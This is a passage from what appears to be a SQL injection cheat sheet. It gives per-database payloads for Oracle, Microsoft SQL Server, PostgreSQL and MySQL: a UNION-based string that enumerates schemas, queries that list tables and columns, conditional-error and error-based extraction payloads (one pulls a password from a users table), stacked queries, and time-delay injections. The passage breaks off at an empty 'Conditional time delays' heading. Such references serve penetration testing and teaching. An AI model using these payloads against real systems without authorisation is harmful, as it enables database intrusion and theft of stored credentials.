 ``` 1'union+select+null,schema_name,null+FROM+INFORMATION_SCHEMA.SCHEMATA# ```    change the comment based on database to # or -- or /* **and** number of **null** values <br/>
Oracle	SELECT * FROM all_tables<br/>
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'<br/>
Microsoft	SELECT * FROM information_schema.tables<br/>
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br/>
PostgreSQL	SELECT * FROM information_schema.tables<br/>
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br/>
MySQL	SELECT * FROM information_schema.tables<br/>
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br/>
<br/><br/>

**Conditional errors**<br/>
You can test a single boolean condition and trigger a database error if the condition is true.<br/>
<br/>
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual<br/>
Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END<br/>
PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)<br/>
MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')<br/>
<br/><br/>

**Extracting data via visible error messages**<br/>
You can potentially elicit error messages that leak sensitive data returned by your malicious query.<br/>
<br/>
Microsoft	SELECT 'foo' WHERE 1 = (SELECT 'secret')<br/>
<br/>
Conversion failed when converting the varchar value 'secret' to data type int.<br/>
PostgreSQL	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)<br/>
<br/>
 invalid input syntax for integer: "secret"<br/>
MySQL	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))<br/>
<br/>
 XPATH syntax error: '\secret'<br/>

<br/><br/>
**Batched (or stacked) queries**<br/>
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.<br/>
<br/>
Oracle	Does not support batched queries.<br/>
Microsoft	QUERY-1-HERE; QUERY-2-HERE<br/>
PostgreSQL	QUERY-1-HERE; QUERY-2-HERE<br/>
MySQL	QUERY-1-HERE; QUERY-2-HERE<br/>
Note<br/>
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.<br/>
<br/><br/>

**Time delays**<br/>
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.<br/>
<br/>
Oracle	dbms_pipe.receive_message(('a'),10)<br/>
Microsoft	WAITFOR DELAY '0:0:10'<br/>
PostgreSQL	SELECT pg_sleep(10)<br/>
MySQL	SELECT SLEEP(10)<br/>

<br/><br/>
**Conditional time delays**<br/>
You can test a single boolean condition and trigger a time delay if the condition is true.<br/>
```